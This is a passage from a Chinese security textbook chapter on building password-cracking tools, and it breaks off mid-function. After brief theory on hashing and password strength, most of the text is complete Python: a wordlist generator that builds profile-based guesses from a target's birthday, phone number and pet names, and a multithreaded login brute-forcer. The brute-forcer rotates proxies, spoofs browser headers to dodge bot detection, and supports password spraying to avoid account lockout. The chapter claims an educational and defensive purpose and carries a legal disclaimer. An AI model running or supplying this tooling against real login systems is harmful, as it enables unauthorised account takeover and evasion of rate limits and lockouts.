



## 33.3 密码破解工具开发

密码是身份认证体系的第一道防线，也是攻击者最常攻击的目标。开发密码破解工具不是为了作恶——恰恰相反，只有深入理解攻击手段，才能构建真正有效的防御。本节将从密码存储原理出发，完整构建三个实用工具：字典生成器、登录爆破器和哈希破解器，并详细分析每种攻击的防御策略。

> **法律声明**：密码破解工具只能在获得明确授权的目标上使用，或在自建靶场环境中测试。未经授权对他人系统发起密码攻击属于违法行为，将承担刑事责任。

### 33.3.1 密码安全的理论基础

#### 密码如何被存储

理解密码攻击的前提，是理解密码如何被存储在系统中。现代系统绝不会明文存储密码，而是通过哈希算法将其转换为不可逆的固定长度输出：

```text
明文密码 → 哈希函数 → 哈希值（存储在数据库中）
"mypassword" → SHA-256 → "1b4f8e7d3c2a9b5e..." → 存入DB
```

常见的密码哈希算法及其安全性对比：

| 算法 | 输出长度 | 计算速度 | 加盐要求 | 安全性评价 |
|------|----------|----------|----------|------------|
| MD5 | 128位 | 极快（10亿次/秒） | 必须 | 已被完全攻破，不应使用 |
| SHA-1 | 160位 | 极快 | 必须 | 已不推荐用于密码存储 |
| SHA-256 | 256位 | 快 | 必须 | 速度快反而不安全（易被暴力破解） |
| bcrypt | 可变 | 慢（可调成本因子） | 内置 | 推荐，成本因子可调 |
| scrypt | 可变 | 极慢（内存密集） | 内置 | 强推荐，抵抗GPU/ASIC攻击 |
| Argon2 | 可变 | 极慢（内存+时间） | 内置 | 最佳选择，2015年密码哈希竞赛冠军 |

**关键洞察**：哈希速度越快越不安全——这意味着攻击者可以用更短的时间尝试更多密码组合。bcrypt/scrypt/Argon2 的设计目标就是"让合法验证足够快，让暴力破解足够慢"。

#### 密码攻击的分类体系



**在线攻击 vs 离线攻击**是最重要的分界线。在线攻击受到网络延迟、速率限制、账户锁定等约束，速度通常只有每秒几十到几百次尝试。离线攻击一旦获取了密码哈希值（如数据库泄露），攻击者可以在本地以每秒数十亿次的速度进行破解，完全不受网络限制。这就是为什么"即使使用了哈希存储，弱密码仍然极其危险"的根本原因。

#### 密码强度的数学分析

密码的理论强度由搜索空间决定：

```text
搜索空间 = 字符集大小 ^ 密码长度

示例：
- 纯小写字母8位：26^8 ≈ 2,088亿种组合
- 字母+数字8位：62^8 ≈ 218万亿种组合
- 全字符8位：95^8 ≈ 6,634万亿种组合
- 字母+数字12位：62^12 ≈ 3.2 × 10^21 种组合
```

但理论强度与实际强度差距巨大。根据 NIST SP 800-63B 和 Have I Been Pwned 数据库的统计：

- 全球最常用的100个密码占所有泄露密码的 **3.4%**
- 8位纯小写字母密码在现实中的破解时间：**几分钟到几小时**（因为人们选择的密码远非随机）
- 12位包含大小写+数字+特殊字符的随机密码：**理论上数百年**

这种差距的根源在于**人类行为的可预测性**——人们倾向于选择生日、名字、键盘模式（qwerty）、字典单词等低熵组合，而非真正的随机字符串。

### 33.3.2 密码字典生成器

字典生成是密码破解的第一步，也是最关键的一步。字典质量直接决定了破解效率。一个优秀的字典生成器应该支持多种生成策略，并能根据目标信息进行针对性定制。

#### 核心设计思路



#### 完整实现

```python
#!/usr/bin/env python3
"""
密码字典生成器 v2.0
支持5种生成策略，可针对目标信息定制字典
"""

import itertools
import string
import argparse
import random
import os
from collections import Counter


class PasswordGenerator:
    """多策略密码字典生成器"""
    
    # 定义字符集，方便复用和扩展
    CHARSETS = {
        'a': string.ascii_letters,          # 所有字母
        'l': string.ascii_lowercase,         # 小写字母
        'u': string.ascii_uppercase,         # 大写字母
        '#': string.digits,                  # 数字
        '!': string.punctuation,             # 特殊字符
        'd': string.digits,                  # 数字（别名）
        's': string.punctuation,             # 特殊字符（别名）
    }
    
    # 常见的 Leet Speak 替换映射（黑客文化中的字符替换）
    LEET_MAP = {
        'a': ['@', '4'],
        'e': ['3'],
        'i': ['1', '!'],
        'o': ['0'],
        's': ['$', '5'],
        't': ['7'],
        'l': ['1'],
        'b': ['8'],
        'g': ['9'],
    }
    
    def __init__(self):
        self.charset = string.ascii_letters + string.digits + string.punctuation
    
    # ── 策略一：按长度穷举 ──
    
    def generate_by_length(self, min_length, max_length, charset=None):
        """
        穷举指定长度范围内的所有密码组合。
        
        适用场景：已知密码长度范围，需要完整覆盖。
        注意：搜索空间随长度指数增长，8位以上全字符集几乎不可行。
        
        示例：
            3位小写字母 → 26^3 = 17,576 个密码
            4位小写字母 → 26^4 = 456,976 个密码
            6位数字     → 10^6 = 1,000,000 个密码
        """
        charset = charset or self.charset
        count = 0
        for length in range(min_length, max_length + 1):
            total = len(charset) ** length
            print(f"[*] 长度 {length}: {total:,} 种组合")
            for password in itertools.product(charset, repeat=length):
                yield ''.join(password)
                count += 1
        print(f"[+] 总计生成 {count:,} 个密码")
    
    # ── 策略二：模式匹配生成 ──
    
    def generate_by_pattern(self, pattern):
        """
        根据模式模板生成密码。
        
        模式语法：
            a = 所有字母, l = 小写, u = 大写
            # = 数字, ! = 特殊字符
            其他字符保持原样（固定位置）
        
        示例：
            "aaa####" → "abc1234" 这样的 3字母+4数字 组合
            "u#####!" → "A1234!@" 这样的 大写+4数字+2特殊 组合
            "20##!!"  → "2023!!" 这样的固定年份模式
        
        适用场景：已知密码结构（如"名字+生日+特殊字符"）。
        """
        char_groups = []
        for char in pattern:
            if char in self.CHARSETS:
                char_groups.append(self.CHARSETS[char])
            else:
                # 固定字符，只有一种可能
                char_groups.append([char])
        
        total = 1
        for group in char_groups:
            total *= len(group)
        print(f"[*] 模式 '{pattern}' → {total:,} 种组合")
        
        for combination in itertools.product(*char_groups):
            yield ''.join(combination)
    
    # ── 策略三：基于词汇的变换生成 ──
    
    def generate_from_words(self, words, min_length=1, max_length=2,
                            custom_transforms=None):
        """
        基于给定词汇，通过组合和变换生成密码变体。
        
        变换规则包括：
        1. 大小写变换（原样、全大写、首字母大写）
        2. 数字后缀（123、1、01、年份等）
        3. 特殊字符后缀（!、@、# 等）
        4. Leet Speak 替换（a→@, e→3, s→$ 等）
        5. 多词汇组合（两两拼接后再变换）
        
        示例（输入词汇 "password"）：
            password, PASSWORD, Password
            password123, password!, password@
            p@ssword, p@ssw0rd, P@$$w0rd
            password123!, password@1
        """
        # 基础变换列表
        base_transforms = [
            ("原样", lambda w: w),
            ("全大写", lambda w: w.upper()),
            ("首字母大写", lambda w: w.capitalize()),
            ("全小写", lambda w: w.lower()),
        ]
        
        # 数字后缀变换
        number_suffixes = [
            ("+123", lambda w: w + '123'),
            ("+1", lambda w: w + '1'),
            ("+01", lambda w: w + '01'),
            ("+666", lambda w: w + '666'),
            ("+年份", lambda w: w + '2024'),
            ("+1024", lambda w: w + '1024'),
        ]
        
        # 特殊字符后缀变换
        symbol_suffixes = [
            ("+!", lambda w: w + '!'),
            ("+@", lambda w: w + '@'),
            ("+#$", lambda w: w + '#$'),
            ("+!@#", lambda w: w + '!@#'),
        ]
        
        # Leet Speak 替换（对每个字符尝试所有可能的替换组合）
        def leet_transforms(word):
            """生成 Leet Speak 变体"""
            variants = [word]
            for char, replacements in self.LEET_MAP.items():
                new_variants = []
                for variant in variants:
                    if char in variant.lower():
                        for rep in replacements:
                            new_variants.append(
                                variant.replace(char, rep) if char in variant
                                else variant.replace(char.lower(), rep) if char.lower() in variant
                                else variant
                            )
                variants.extend(new_variants)
            # 去重并过滤与原词相同的
            return list(set(v for v in variants if v != word))[:20]  # 限制数量
        
        # 合并所有变换
        all_transforms = base_transforms + number_suffixes + symbol_suffixes
        if custom_transforms:
            all_transforms.extend(custom_transforms)
        
        count = 0
        # 单词变换
        for word in words:
            for name, transform in all_transforms:
                result = transform(word)
                if len(result) >= 4:  # 过滤过短的密码
                    yield result
                    count += 1
            
            # Leet Speak 变体
            for leet_word in leet_transforms(word):
                yield leet_word
                count += 1
        
        # 多词汇组合（两两拼接）
        if max_length >= 2:
            for w1, w2 in itertools.combinations(words, 2):
                combined = w1 + w2
                for name, transform in base_transforms:
                    result = transform(combined)
                    if len(result) >= 4:
                        yield result
                        count += 1
        
        print(f"[+] 总计生成 {count:,} 个密码变体")
    
    # ── 策略四：基于马尔可夫链的智能生成 ──
    
    def generate_markov(self, corpus, length, count=1000, order=2):
        """
        基于马尔可夫链分析语料库中的密码模式，生成统计上相似的新密码。
        
        原理：
        1. 分析语料库中 n-gram（连续n个字符）的出现频率
        2. 构建转移概率表：给定前n个字符，下一个字符的概率分布
        3. 按概率随机采样，生成符合统计规律的新密码
        
        order（阶数）决定了"记忆长度"：
        - order=1：只看前1个字符（简单但多样性差）
        - order=2：看前2个字符（推荐，平衡质量和多样性）
        - order=3：看前3个字符（更精确但可能过拟合）
        
        适用场景：有大量已泄露密码作为语料库时，能生成"像人类选择的"密码。
        """
        if len(corpus) < order + 1:
            print("[-] 语料库过短，无法构建马尔可夫模型")
            return []
        
        # 构建 n-gram 转移概率表
        transitions = {}
        for i in range(len(corpus) - order):
            context = corpus[i:i + order]
            next_char = corpus[i + order]
            if context not in transitions:
                transitions[context] = Counter()
            transitions[context][next_char] += 1
        
        # 将 Counter 转换为 (字符, 概率) 列表，按概率降序排列
        weighted_transitions = {}
        for context, counter in transitions.items():
            total = sum(counter.values())
            weighted_transitions[context] = [
                (char, freq / total) for char, freq in counter.most_common()
            ]
        
        # 生成密码
        passwords = set()
        attempts = 0
        max_attempts = count * 10  # 防止无限循环
        
        while len(passwords) < count and attempts < max_attempts:
            attempts += 1
            # 随机选择一个起始 context
            start = random.choice(list(weighted_transitions.keys()))
            password = start
            
            for _ in range(length - order):
                if password[-order:] in weighted_transitions:
                    # 按概率加权随机选择下一个字符
                    candidates = weighted_transitions[password[-order:]]
                    r = random.random()
                    cumulative = 0.0
                    next_char = candidates[-1][0]  # 默认最后一个
                    for char, prob in candidates:
                        cumulative += prob
                        if r <= cumulative:
                            next_char = char
                            break
                    password += next_char
                else:
                    break
            
            # 过滤：长度合理、包含字母和数字
            if 4 <= len(password) <= length:
                passwords.add(password)
        
        print(f"[+] 马尔可夫模型生成 {len(passwords):,} 个密码"
              f"（基于 {len(transitions):,} 个 {order}-gram 模式）")
        return list(passwords)
    
    # ── 策略五：基于个人信息的定向生成 ──
    
    def generate_from_profile(self, profile, year_range=(1970, 2010)):
        """
        根据目标个人信息生成高度定制化的密码字典。
        
        这是最高效的密码生成策略——在真实渗透测试中，针对性字典的成功率
        远高于通用字典。根据 Verizon 2023 DBIR 报告，61% 的数据泄露
        涉及凭据攻击，而其中大部分使用的是基于个人信息的定制密码。
        
        profile 字典结构：
        {
            "name": "张三",           # 中文名
            "english_name": "zhangsan", # 英文名/拼音
            "birthday": "1995-03-15",  # 生日
            "phone": "13812345678",    # 手机号
            "company": "alibaba",      # 公司
            "id_number": "110...",     # 身份证号（部分）
            "pets": ["xiaobai"],      # 宠物名
            "hobbies": ["basketball"], # 爱好
        }
        """
        passwords = []
        
        # 收集所有可用的字符串素材
        bases = []
        for key in ['name', 'english_name', 'company', 'pets', 'hobbies']:
            val = profile.get(key)
            if val:
                if isinstance(val, list):
                    bases.extend(val)
                else:
                    bases.append(str(val).lower())
        
        # 从生日提取日期元素
        birthday = profile.get('birthday', '')
        date_parts = []
        if birthday:
            parts = birthday.replace('/', '-').split('-')
            if len(parts) == 3:
                year, month, day = parts
                date_parts = [year, month, day, year[-2:], month + day,
                              month.lstrip('0') + day.lstrip('0')]
        
        # 从手机号提取数字
        phone = profile.get('phone', '')
        phone_parts = []
        if phone:
            phone_parts = [phone, phone[-4:], phone[-6:]]
        
        # 组合生成
        special_chars = ['!', '@', '#', '$', '123', '1234', '']
        
        for base in bases:
            # 基础变体
            passwords.append(base)
            passwords.append(base.capitalize())
            passwords.append(base.upper())
            passwords.append(base[::-1])  # 反转
            
            # + 数字后缀
            for dp in date_parts:
                passwords.append(base + dp)
                passwords.append(base + dp[::-1])
            
            for pp in phone_parts:
                passwords.append(base + pp)
            
            # + 特殊字符
            for sc in special_chars:
                passwords.append(base + sc)
                for dp in date_parts[:2]:  # 年份和月日
                    passwords.append(base + dp + sc)
            
            # 两个素材组合
            for other in bases:
                if other != base:
                    passwords.append(base + other)
                    passwords.append(base + other + '123')
                    passwords.append(base.capitalize() + other.capitalize())
        
        # 去重
        passwords = list(set(p for p in passwords if 4 <= len(p) <= 32))
        print(f"[+] 基于个人信息生成 {len(passwords):,} 个定向密码")
        return passwords
    
    # ── 文件输出 ──
    
    def save_to_file(self, passwords, filename, sort=True):
        """
        保存密码到文件，支持去重和排序。
        
        参数：
            passwords: 密码迭代器或列表
            filename: 输出文件路径
            sort: 是否按长度+字典序排序（推荐开启，便于后续使用）
        """
        # 如果是生成器，需要先收集到列表
        if not isinstance(passwords, list):
            print("[*] 收集生成器输出...")
            passwords = list(passwords)
        
        # 去重
        unique_count = len(passwords)
        passwords = list(set(passwords))
        if len(passwords) < unique_count:
            print(f"[*] 去重：{unique_count} → {len(passwords)}")
        
        # 排序：先按长度，再按字典序（短密码优先破解）
        if sort:
            passwords.sort(key=lambda p: (len(p), p))
        
        with open(filename, 'w', encoding='utf-8') as f:
            for password in passwords:
                f.write(password + '\n')
        
        file_size = os.path.getsize(filename)
        print(f"[+] 已保存 {len(passwords):,} 个密码到 {filename}"
              f"（文件大小: {file_size / 1024:.1f} KB）")


def main():
    parser = argparse.ArgumentParser(
        description='密码字典生成器 v2.0',
        formatter_class=argparse.RawDescriptionHelpFormatter,
        epilog="""
使用示例：
  %(prog)s -m length --min-length 4 --max-length 6 -o dict.txt
  %(prog)s -m pattern --pattern "aaa####" -o dict.txt
  %(prog)s -m words --words admin password root -o dict.txt
  %(prog)s -m markov --corpus leaked.txt --max-length 10 -o dict.txt
  %(prog)s -m profile --profile target.json -o dict.txt
        """)
    parser.add_argument('-m', '--mode',
                        choices=['length', 'pattern', 'words', 'markov', 'profile'],
                        required=True, help='生成策略')
    parser.add_argument('-o', '--output', default='passwords.txt',
                        help='输出文件路径（默认: passwords.txt）')
    parser.add_argument('--min-length', type=int, default=4,
                        help='最小密码长度（默认: 4）')
    parser.add_argument('--max-length', type=int, default=8,
                        help='最大密码长度（默认: 8）')
    parser.add_argument('--pattern', help='密码模式（如 "aaa####"）')
    parser.add_argument('--words', nargs='+', help='基础词汇列表')
    parser.add_argument('--corpus', help='马尔可夫模式的语料库文件')
    parser.add_argument('--order', type=int, default=2,
                        help='马尔可夫模型阶数（默认: 2）')
    parser.add_argument('--profile', help='个人信息 JSON 文件路径')
    
    args = parser.parse_args()
    generator = PasswordGenerator()
    
    if args.mode == 'length':
        passwords = generator.generate_by_length(
            args.min_length, args.max_length)
    elif args.mode == 'pattern':
        if not args.pattern:
            parser.error("pattern 模式需要 --pattern 参数")
        passwords = generator.generate_by_pattern(args.pattern)
    elif args.mode == 'words':
        if not args.words:
            parser.error("words 模式需要 --words 参数")
        passwords = generator.generate_from_words(
            args.words, args.min_length, args.max_length)
    elif args.mode == 'markov':
        if not args.corpus:
            parser.error("markov 模式需要 --corpus 参数")
        with open(args.corpus, 'r', encoding='utf-8', errors='ignore') as f:
            corpus = f.read()
        passwords = generator.generate_markov(
            corpus, args.max_length, order=args.order)
    elif args.mode == 'profile':
        if not args.profile:
            parser.error("profile 模式需要 --profile 参数")
        import json
        with open(args.profile, 'r', encoding='utf-8') as f:
            profile = json.load(f)
        passwords = generator.generate_from_profile(profile)
    
    generator.save_to_file(passwords, args.output)


if __name__ == '__main__':
    main()
```

#### 五种策略的适用场景对比

| 策略 | 适用场景 | 生成速度 | 成功率 | 搜索空间 |
|------|----------|----------|--------|----------|
| 长度穷举 | 短密码（≤6位） | 慢 | 高（若密码确实短） | 指数增长 |
| 模式匹配 | 已知密码结构 | 快 | 高 | 取决于模式复杂度 |
| 词汇变换 | 用户有规律性命名习惯 | 快 | 中高 | 受词汇数量限制 |
| 马尔可夫 | 有大量泄露语料 | 快 | 中 | 由语料覆盖度决定 |
| 个人信息 | 渗透测试定向攻击 | 极快 | 极高 | 受信息完整度限制 |

**实战建议**：在渗透测试中，通常按"个人信息字典 → 词汇变换字典 → 通用模式字典"的顺序依次尝试。成功率最高的是个人信息定向字典——一个针对目标精心构造的 5000 词字典，效果远好于一个通用的 500 万词字典。

### 33.3.3 登录爆破工具

登录爆破是针对在线系统的密码攻击。与离线破解不同，在线爆破面临网络延迟、速率限制、验证码、IP封禁等多重障碍。一个专业的爆破工具必须能有效应对这些限制。

#### 核心挑战与应对策略

| 挑战 | 具体表现 | 应对方案 |
|------|----------|----------|
| 速率限制 | 单IP每分钟最多N次尝试 | 代理池轮换、降低请求频率 |
| 账户锁定 | 连续N次失败后锁定账户 | 密码喷洒策略（少量密码 × 大量账号） |
| 验证码 | 登录N次后弹出验证码 | OCR识别、绕过、人工辅助 |
| IP封禁 | 异常流量触发防火墙规则 | 代理池、Tor网络、分布式源IP |
| 登录态检测 | Cookie/Token验证失败 | 保持Session、模拟浏览器行为 |
| 响应判断 | 登录成功/失败无明显区别 | 多维度判断（响应码+内容长度+重定向） |

#### 完整实现

```python
#!/usr/bin/env python3
"""
登录爆破工具 v2.0
支持多协议、智能速率控制、多种响应判断策略
"""

import requests
import threading
import argparse
import time
import json
import random
from concurrent.futures import ThreadPoolExecutor, as_completed
from collections import defaultdict
from urllib.parse import urljoin


class LoginBruteForcer:
    """
    多策略登录爆破工具
    
    支持三种攻击模式：
    1. 标准模式：用户名 × 密码 全组合遍历
    2. 密码喷洒：少量常用密码 × 所有用户名（避免触发账户锁定）
    3. 凭证填充：已泄露的用户名-密码对直接验证
    """
    
    # 常见的登录成功/失败判断关键词
    SUCCESS_INDICATORS = ['dashboard', 'welcome', 'profile', 'logout',
                          'settings', 'console', 'admin']
    FAILURE_INDICATORS = ['invalid', 'incorrect', 'wrong', 'failed',
                          'error', 'denied', 'unauthorized']
    
    def __init__(self, target_url, threads=10, timeout=10,
                 rate_limit=0.1, proxy_list=None):
        """
        参数：
            target_url: 登录接口URL
            threads: 并发线程数（在线攻击建议保守，5-15）
            timeout: 单次请求超时（秒）
            rate_limit: 每个线程的最小请求间隔（秒），防止被封
            proxy_list: 代理地址列表，格式为 "http://ip:port"
        """
        self.target_url = target_url
        self.threads = threads
        self.timeout = timeout
        self.rate_limit = rate_limit
        self.proxy_list = proxy_list or []
        
        # 线程安全的控制变量
        self.found = False
        self.lock = threading.Lock()
        self.attempt_count = 0
        self.start_time = time.time()
        
        # 统计数据
        self.stats = {
            'success': [],
            'failed': 0,
            'errors': 0,
            'rate_limited': 0,
        }
    
    def load_wordlist(self, filename):
        """加载字典文件，过滤空行和注释行"""
        words = []
        with open(filename, 'r', encoding='utf-8', errors='ignore') as f:
            for line in f:
                word = line.strip()
                if word and not word.startswith('#'):
                    words.append(word)
        print(f"[+] 加载 {len(words):,} 条记录：{filename}")
        return words
    
    def _get_proxy(self):
        """随机选择一个代理（如果配置了代理池）"""
        if self.proxy_list:
            proxy = random.choice(self.proxy_list)
            return {'http': proxy, 'https': proxy}
        return None
    
    def _build_session(self):
        """
        构建带有浏览器特征的 Session。
        
        许多网站通过 User-Agent 和其他请求头判断是否为机器人。
        模拟真实浏览器特征可以显著降低被检测的概率。
        """
        session = requests.Session()
        session.headers.update({
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) '
                          'AppleWebKit/537.36 (KHTML, like Gecko) '
                          'Chrome/120.0.0.0 Safari/537.36',
            'Accept': 'text/html,application/xhtml+xml,application/xml;'
                      'q=0.9,image/webp,*/*;q=0.8',
            'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8',
            'Accept-Encoding': 'gzip, deflate, br',
            'Connection': 'keep-alive',
        })
        return session
    
    def _check_response(self, response, username, password):
        """
        多维度判断登录是否成功。
        
        单一判断条件容易误判，综合多个维度提高准确率：
        1. HTTP 状态码：302 重定向通常表示登录成功
        2. 响应体长度：成功页面通常比错误页面内容更多
        3. 关键词检测：检查响应中是否包含成功/失败的标志词
        4. 响应时间：某些系统在密码错误时响应更快（数据库查询优化）
        """
        if response.status_code in [301, 302]:
            location = response.headers.get('Location', '').lower()
            # 重定向到登录页面本身 = 登录失败
            if 'login' in location or 'signin' in location:
                return False
            # 重定向到其他页面 = 登录成功
            return True
        
        if response.status_code != 200:
            return False
        
        text_lower = response.text.lower()
        
        # 检查失败指标（优先级更高）
        for indicator in self.FAILURE_INDICATORS:
            if indicator in text_lower:
                return False
        
        # 检查成功指标
        for indicator in self.SUCCESS_INDICATORS:
            if indicator in text_lower:
                return True
        
        # 响应内容长度启发式：成功页面通常比错误页面长
        # 这是一个弱信号，但在缺乏明确指标时可以参考
        if len(response.text) > 5000:
            return True  # 可能成功
        
        return None  # 无法判断
    
    def try_login(self, session, username, password,
                  data_format='form', field_names=None):
        """
        尝试单次登录。
        
        参数：
            session: requests.Session 对象
            username: 用户名
            password: 密码
            data_format: 提交格式 ('form' | 'json')
            field_names: 字段名映射，默认 {'user': 'username', 'pass': 'password'}
        
        返回：(success: bool, username: str, password: str)
        """
        if self.found:
            return (False, username, password)
        
        # 速率控制：每次请求前等待
        time.sleep(self.rate_limit)
        
        field_names = field_names or {'user': 'username', 'pass': 'password'}
        
        try:
            if data_format == 'json':
                data = {field_names['user']: username,
                        field_names['pass']: password}
                response = session.post(
                    self.target_url,
                    json=data,
                    timeout=self.timeout,
                    allow_redirects=False,
                    proxies=self._get_proxy()
                )
            else:
                data = {field_names['user']: username,
                        field_names['pass']: password}
                response = session.post(
                    self.target_url,
                    data=data,
                    timeout=self.timeout,
                    allow_redirects=False,
                    proxies=self._get_proxy()
                )
            
            result = self._check_response(response, username, password)
            
            with self.lock:
                self.attempt_count += 1
                if self.attempt_count % 100 == 0:
                    elapsed = time.time() - self.start_time
                    rate = self.attempt_count / elapsed if elapsed > 0 else 0
                    print(f"[*] 进度: {self.attempt_count:,} 次尝试 "
                          f"({rate:.1f} 次/秒)")
            
            if result is True:
                with self.lock:
                    if not self.found:
                        self.found = True
                        self.stats['success'].append((username, password))
                        print(f"\n[+] ✓ 找到有效凭证!")
                        print(f"    用户名: {username}")
                        print(f"    密码:   {password}")
                        print(f"    用时:   {time.time() - self.start_time:.1f} 秒")
                        return (True, username, password)
            
            with self.lock:
                self.stats['failed'] += 1
            
        except requests.exceptions.Timeout:
            with self.lock:
                self.stats['errors'] += 1
        except requests.exceptions.ConnectionError:
            with self.lock:
                self.stats['errors'] += 1
                self.stats['rate_limited'] += 1
        except Exception as e:
            with self.lock:
                self.stats['errors'] += 1
        
        return (False, username, password)
    
    def attack_standard(self, usernames, passwords, field_names=None):
        """
        标准爆破模式：用户名 × 密码 全组合遍历。
        
        适用于：没有账户锁定策略的目标，或使用代理池规避限制。
        注意：尝试次数 = 用户名数 × 密码数，大规模组合会非常耗时。
        """
        total = len(usernames) * len(passwords)
        print(f"\n[*] 标准攻击模式")
        print(f"[*] 用户名: {len(usernames)}, 密码: {len(passwords)}")
        print(f"[*] 总尝试次数: {total:,}")
        
        self.start_time = time.time()
        self.found = False
        
        with ThreadPoolExecutor(max_workers=self.threads) as executor:
            futures = []
            for username in usernames:
                if self.found:
                    break
                for password in passwords:
                    if self.found:
                        break
                    session = self._build_session()
                    future = executor.submit(
                        self.try_login, session, username, password,
                        field_names=field_names)
                    futures.append(future)
            
            for future in as_completed(futures):
                if self.found:
                    # 取消剩余任务
                    for f in futures:
                        f.cancel()
                    break
                future.result()
    
    def attack_spray(self, passwords, usernames, field_names=None):
        """
        密码喷洒模式：少量密码 × 大量用户名。
        
        这是对抗账户锁定的最有效策略。每次只用一个密码尝试所有用户，
        而不是用所有密码尝试一个用户。这样每个账户的失败次数等于
        密码列表大小（通常远小于锁定阈值）。
        
        典型场景：
        - 企业内网渗透：IT 部门常使用统一初始密码（如 Company@2024）
        - 教育机构：学号 + 统一密码
        
        参考：MITRE ATT&CK T1110.003 - Password Spraying
        """
        total = len(passwords) * len(usernames)
        print(f"\n[*] 密码喷洒模式")
        print(f"[*] 密码: {len(passwords)}, 用户名: {len(usernames)}")
        print(f"[*] 总尝试次数: {total:,}")
        print(f"[*] 每个账户最多尝试 {len(passwords)} 次")
        
        self.start_time = time.time()
        self.found = False
        
        with ThreadPoolExecutor(max_workers=self.threads) as executor:
            futures = []
            for password in passwords:
                if self.found:
                    break
                for username in usernames:
                    if self.found:
                        break
                    session = self._build_session()
                    future = executor.submit(
                        self.try_login, session, username, password,
                        field_names=field_names)
                    futures.append(future)
            
            for future in as_completed(futures):
                if self.found:
                    for f in futures:
                        f.cancel()
                    break
                future.result()
    
    def attack_credential_stuffing(self, credential_file, field_names=None):
        """
        凭证填充模式：使用已泄露的用户名-密码对进行批量验证。
        
        凭证填充是现实中成功率最高的密码攻击方式。根据 Akamai 2023
        报告，凭证填充攻击在 2022 年增长了 131%。原因是人们在不同
        网站使用相同或相似的密码——一个网站的泄露可能导致多个网站沦陷。
        
